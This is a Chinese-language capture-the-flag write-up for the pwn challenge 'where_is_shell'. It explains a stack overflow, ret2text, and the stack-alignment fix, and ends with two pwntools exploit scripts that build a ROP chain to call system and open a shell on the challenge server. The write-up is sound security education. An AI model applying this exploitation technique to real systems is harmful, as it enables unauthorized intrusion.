

# [GFCTF 2021]where_is_shell

## 基本信息

- 题目链接:https://www.nssctf.cn/problem/889

- 考点清单:栈溢出、ret2text、栈对齐

- 工具清单: IDA、pwntools、ROPgadget、checksec

## 一、看到什么

- `shell`程序

    - file

    程序为64位

    

    - checksec

    程序带有`NX`保护，无法在栈内执行指令，所以无法使用`shellcode`的方式进行利用。


    

    - IDA

    buf创建了`0x10`字节大小的空间,而`read`函数能够写入`0x38`字节大小的字符,故存在栈溢出漏洞

    

    搜索可以看到有一个`system`函数,没有找到`/bin/sh`字符串,但是有一个`tips函数`标红

    

    因为实在找不到有什么能够代表`sh`的了，根据题目提示，字符串可能在`.text`代码段上，所以有可能这个标红的位置是`shell`的字符串(可尝试一下)

    
      
## 二、想到什么解题思路

1. 同时存在`system`函数调用与可疑的`sh`字段，可以利用栈溢出替换`ret`的返回值,跳转到`system`进行执行

2. 题目包含`栈对齐`字样，可能需要用到栈对齐相关解决办法

## 三、尝试过程与结果记录

1. 判断栈溢出的位数

`buf`相对于rbp偏移为0x10,加上函数第一步`push rbp`的空间`0x08`(由于是64位),所以buf距离`返回地址`的偏移为`0x18`,所以理论上需要溢出`0x18`字节


2. 寻找`system`调用的地址与可疑字符串的地址

`system`比较好找,`IDA`左边的函数栏就有


可疑字符串的地址，开始我输入的是`0x400540`,但是出现问题，后来查了下操作码`E8 24 30 00`

- E8 指令用于调用一个子过程或函数

- 24 30 00 是相对于下一条指令的偏移量

所以真正的字符串地址应该是`0x400540+1 = 0x400541`


3. 解决栈对齐问题

- `栈对齐问题`：在64位程序中，由于在程序运行最后都会检验栈是否按照`16位`、`32位`等对齐，没有对齐则报错。

- `什么意思呢？`

    举个例子:假如说现在运行到检验的指令时,当前地址为`0x1008`这个数会添加某一个值(比如0x50)然后对`16`取余，结果为0才会检验通过。

- `形成原因`:`movaps xmmword ptr [rsp + 0x50], xmm0`要求运行到这条指令时,当前的`地址`+`0x50`要对`16`取余为0,否则报错。

    对于不同的指令，对齐的位数不同。使用 XMM 时，需要 16Byte 对齐；使用 YMM 时，需要 32Byte 对齐；使用 ZMM 时，需要 64Byte 对齐。

    这里推荐这个`参考文档`，讲解非常细致[CTFer成长日记12：栈对齐—获取shell前的临门一脚](https://zhuanlan.zhihu.com/p/611961995)

- `如何解决`

    - 第一种方法:调用新的函数时，可以跳过开始的`push rbp`，具体操作是调用函数时，从第二句开始(即函数地址+1,地址跳过8个字节)

    - 第二种方法:在函数即将取返回地址时，返回地址覆盖成指向`ret`的地址，有点像`套娃`，前面执行过一次`ret`,再执行一下，然后后面再写跳转的地址。

        - 原本的栈(ret先return`0x1000`,再读入`0x1008`)

        |地址|栈顶|
        |--|--|
        |···|···|
        |0x1000|即将退出的rbp|
        |0x1008|返回地址|

        - 现在的栈(ret先return`0x1000`,再读入`0x1008`,然后再执行一遍`ret`，读入`0x1010`)

        |地址|栈顶|
        |--|--|
        |···|···|
        |0x1000|即将退出的rbp|
        |0x1008|指向ret指令的地址|
        |0x1010|返回地址|

解释完原理，我们选择第二种方法，因为system函数中没有发现`push rbp`,所以还是不要用第一种方法随便跳了


利用`ROPgadget`寻找一个可用的`ret`地址


4. 第一次尝试编写`exp.py`

```py

from pwn import *

l = remote('node4.anna.nssctf.cn',28379)

sys = 0x400430

sh = 0x400541

ret = 0x400416

payload = 0x18 * b'A' + p64(ret)  + p64(sys) + p64(sh)

l.sendline(payload)

l.interactive()

```

很遗憾的报错了`EOF`,看来不能直接填写`p64(sys) + p64(sh)`

后来想起对于`64位`的程序,函数参数一般`存在于寄存器`中,而非存在`栈内`

所以添一个`pop rdi;ret`指令,将可疑字符串`sh`的地址出栈到`rdi`,然后调用`system`函数,`system`函数就可以用`rdi`寄存器里的字符串做形参了

5. 第二次尝试编写`exp.py`

寻找``pop rdi;ret`指令


```py
from pwn import *

l = remote('node4.anna.nssctf.cn',28379)

sys = 0x400430

sh = 0x400541

pop_rdi = 0x4005e3

ret = 0x400416

payload = 0x18 * b'A' + p64(ret) + p64(pop_rdi)  + p64(sh) + p64(sys)

l.sendline(payload)

l.interactive()
```

成功获得flag


## 总结

1. 做题要大胆猜测，例如本题的`shell`字符串藏在`tips`中

2. 64位程序调用函数时，参数在寄存器中，32位存在栈中

3. 栈对齐问题的核心在于跳过一条指令，使得地址末尾为`0`，通用办法可以使用`ret`套娃解决,调用自定义函数可以跳过`push rbp`指令。


